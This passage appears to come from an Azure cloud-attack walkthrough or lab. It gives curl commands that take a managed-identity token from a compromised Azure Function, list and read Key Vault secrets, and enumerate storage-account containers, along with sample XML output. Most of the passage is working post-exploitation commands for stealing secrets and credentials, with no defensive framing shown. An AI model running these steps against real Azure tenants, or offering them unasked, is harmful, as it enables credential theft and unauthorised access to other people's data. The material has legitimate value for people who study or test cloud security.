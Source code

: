 List the secrets:

```bash
export AZURE_VAULT_TOKEN="<SET_TOKEN_VALUE>"
export KEY_VAULT_URI="<SET_VAULT_URI>"
export KEY_VAULT_SECRET="<SET_SECRET_NAME>"
curl -s -H "Authorization: Bearer $AZURE_VAULT_TOKEN" "${KEY_VAULT_URI}secrets?api-version=7.0" | jq
```

Get the latest secret version for the secret:

```bash
KEY_VAULT_SECRET_VERSION=$(curl -s -H "Authorization: Bearer $AZURE_VAULT_TOKEN" "${KEY_VAULT_URI}secrets/${KEY_VAULT_SECRET}/versions?api-version=7.0" | jq -r '.value[-1].id')
echo $KEY_VAULT_SECRET_VERSION
```

Read the secret value:

```bash
curl -s -H "Authorization: Bearer $AZURE_VAULT_TOKEN" "$KEY_VAULT_SECRET_VERSION?api-version=7.0" | jq
```

### Azure Storage

[API Documentation](https://docs.microsoft.com/en-us/rest/api/storageservices/)

From the compromised function, request a Bearer token for the storage service:

```bash
curl -s -H "Secret: $MSI_SECRET" "$MSI_ENDPOINT?api-version=2017-09-01&resource=https://storage.azure.com/"
echo
```

List the storage account containers:

```bash
export AZURE_STORAGE_TOKEN="<SET TOKEN VALUE>"
export STORAGE_ACCOUNT="<SET_STORAGE_ACCOUNT_NAME"
export STORAGE_CONTAINER="<SET_CONTAINER_NAME>"
export BLOB_NAME="<SET_BLOB_OBJECT_NAME>"

curl -s -H "x-ms-version: 2017-11-09" -H "Authorization: Bearer $AZURE_STORAGE_TOKEN" "https://$STORAGE_ACCOUNT.blob.core.windows.net/?comp=list" | xmllint --format -
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<EnumerationResults ServiceEndpoint="https://cougar<UNIQUE_STRING>.blob.core.windows.net/">
  <Containers>
    <Container>
      <Name>azure-webjobs-hosts</Name>
      <Properties>
        <Last-Modified>Thu, 19 Mar 2020 17:52:51 GMT</Last-Modified>
        <Etag>"0x8D7CC2E584F1AF9"</Etag>
        <LeaseStatus>unlocked</LeaseStatus>
        <LeaseState>available</LeaseState>
        <HasImmutabilityPolicy>false</HasImmutabilityPolicy>
        <HasLegalHold>false</HasLegalHold>
      </Properties>
    </Container>
    <Container>
      <Name>azure-webjobs-secrets</Name>
      <Properties>
        <Last-Modified>Thu, 19 Mar 2020 17:52:47 GMT</Last-Modified>
        <Etag>"0x8D7CC2E559F352A"</Etag>
        <LeaseStatus>unlocked</LeaseStatus>
```